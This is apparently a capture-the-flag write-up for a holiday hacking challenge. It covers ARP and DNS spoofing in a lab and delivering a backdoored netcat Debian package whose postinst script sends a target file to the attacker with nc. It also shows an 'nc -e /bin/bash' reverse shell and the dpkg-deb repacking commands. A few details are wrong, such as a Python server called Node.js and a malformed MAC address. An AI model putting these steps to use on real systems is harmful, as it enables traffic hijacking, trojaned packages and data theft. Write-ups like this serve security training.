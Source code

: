 # Objective 9: ARP Shenanigans
Location: NetWars

The objective is to get hold of the file `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt` on a remote host using ARP  and DNS spoofing.

Exercise setup:
||Local Host|Remote Host  |Spoofed Host|
|--|--|--|--|
|MAC|02:42:0a:06:00:02  | 4c:24:57ab:ed:84 ||
|IP| 10.6.0.2 | 10.6.6.35 |10.6.6.53|

A [Python Scapy script](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/arp_resp-py) was prepared to spoof ARP replies for the spoofed host redirecting the traffic to the local host.

Capture of ARP spoofing success with following DNS query:

```
15:57:16.006467 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
15:57:47.028750 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
15:57:47.057274 IP 10.6.6.35.27609 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)`
```
Next a [Python Scapy script](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/dns_resp.py) was prepared to capture DNS requests to the spoofed host and to send replies redirecting traffic to ftp.osuosl.org to the local host.

Capture of ARP and DNS spoofing with following HTTP request:
```
17:27:16.968588 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
17:27:16.992764 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
17:27:17.009009 IP 10.6.6.35.16498 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
17:27:17.029673 IP 10.6.6.53.53 > 10.6.6.35.16498: 0*- 1/0/0 A 10.6.0.2 (62)
17:27:18.098422 IP 10.6.6.35.50340 > 10.6.0.2.80: Flags [S], seq 2451495177, win 64240, options [mss 1460,sackOK,TS val 2516141758 ecr 0,nop,wscale 7], length 0
17:27:18.098452 IP 10.6.0.2.80 > 10.6.6.35.50340: Flags [R.], seq 0, ack 2451495178, win 0, length 0
```
A Node.js HTTP server was started `python3 -m http.server 80` and it logged the request:

    10.6.6.35 - - [12/Dec/2020 17:37:02] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -

On the device the Debian package `netcat-traditional_1.10-41.1ubuntu1_amd64.deb` was found.
This package was modified to include this line in the postinst script:
`/bin/nc 10.6.0.2 4444 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`

By opting for 
`/bin/nc 10.6.0.2 4444 -e /bin/bash`
an interactive reverse shell can be acquired.
```
guest@faf32a4d4929:~/debs$ mkdir tmp
guest@faf32a4d4929:~/debs$ dpkg-deb -R netcat-traditional_1.10-41.1ubuntu1_amd64.deb tmp
guest@faf32a4d4929:~/debs$ vi tmp/DEBIAN/postinst 
guest@faf32a4d4929:~/debs$ dpkg-deb -b tmp suriv_amd64.deb
dpkg-deb: building package 'netcat-traditional' in 'suriv_amd64.deb'.
```

and then made available in the web tree folder as `pub/jfrost/backdoor/suriv_amd64.deb`.
That way the remote device would download this package and install it. In course of the installation, the file in scope would be sent to port 4444 of the local host, which has to run the command

    nc -lvp 4444 > text
to receive the [text](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt) (resp. receive the reverse shell connection).
In this file it can be found that **Tanta Kringle** recused herself from the vote.
<!--stackedit_data:
eyJoaXN0b3J5IjpbODU4MTg4OTI5LDEwOTI3ODUzMjEsLTIwNj
I2NzUyOTcsLTYxMjg5Nzc5OSwtODUyNzIyNzAzLDE3NTgyNDM2
NzcsMTYzNDM5NDk0MSwxMjA0NDI2NTM5LC0xNzk4NDE1ODk2LC
04NzgzOTIyMTYsNTE0MjA5MTU5XX0=
-->